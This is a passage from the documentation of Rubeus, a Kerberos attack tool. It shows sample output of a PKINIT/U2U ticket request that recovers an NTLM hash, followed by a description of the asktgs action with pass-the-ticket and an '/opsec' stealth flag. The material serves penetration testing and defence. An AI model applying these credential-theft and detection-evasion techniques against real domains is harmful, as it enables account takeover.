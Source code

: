       v2.0.0

    [*] Action: Ask TGT

    [*] Using PKINIT with etype rc4_hmac and subject: CN=Harm J0y, CN=Users, DC=rubeus, DC=ghostpack, DC=local
    [*] Building AS-REQ (w/ PKINIT preauth) for: 'rubeus.ghostpack.local\harmj0y'
    [+] TGT request successful!
    [*] base64(ticket.kirbi):

          doIF9DCCBfCgAwIBBaEDAgEWooIE7DCCBOhhggTkMIIE4KADAgEFoRgbFlJVQkVVUy5HSE9TVFBBQ0su
                                            ...(snip)...
          YnRndBsWcnViZXVzLmdob3N0cGFjay5sb2NhbA==

      ServiceName              :  krbtgt/rubeus.ghostpack.local
      ServiceRealm             :  RUBEUS.GHOSTPACK.LOCAL
      UserName                 :  harmj0y
      UserRealm                :  RUBEUS.GHOSTPACK.LOCAL
      StartTime                :  14/07/2021 02:25:33
      EndTime                  :  14/07/2021 12:25:33
      RenewTill                :  21/07/2021 02:25:33
      Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
      KeyType                  :  rc4_hmac
      Base64(key)              :  7MS2ajfZo4HedoK+K3dLcQ==
      ASREP (key)              :  9B1C28A276FBBE557D0F9EE153FE24E1

    [*] Getting credentials using U2U

      CredentialInfo         :
        Version              : 0
        EncryptionType       : rc4_hmac
        CredentialData       :
          CredentialCount    : 1
           NTLM              : C69A7EA908898C23B72E65329AF7E3E8


### asktgs

The **asktgs** action will build/parse a raw TGS-REQ/TGS-REP service ticket request using the specified TGT `/ticket:X` supplied. This value can be a base64 encoding of a .kirbi file or the path to a .kirbi file on disk. If a `/dc` is not specified, the computer's current domain controller is extracted and used as the destination for the request traffic. The `/ptt` flag will "pass-the-ticket" and apply the resulting service ticket to the current logon session. One or more `/service:X` SPNs **must** be specified, comma separated.

The supported encryption types in the constructed TGS-REQ will be RC4_HMAC, AES128_CTS_HMAC_SHA1, and AES256_CTS_HMAC_SHA1. In this case, the highest mutually supported encryption will be used by the KDC to build the returned service ticket. If you want to force DES, RC4, or AES128/256 keys, use `/enctype:[RC4|AES128|AES256|DES]`.

In order to request a service ticket for an account using an enterprise principal (i.e. *user@domain.com*), the `/enterprise` flag can be used.

By default, several differences exists between TGS-REQ's generated by Rubeus and genuine TGS-REQ's. To form TGS-REQ's more inline with genuine requests, the `/opsec` flag can be used, this will also cause an additional TGS-REQ to be sent automatically when a service ticket is requested for an account configured for unconstrained delegation. As this flag is intended to make Rubeus traffic more stealthy, it cannot by default be used with any encryption type other than `aes256` and will just throw a warning and exit if another encryption type is used.
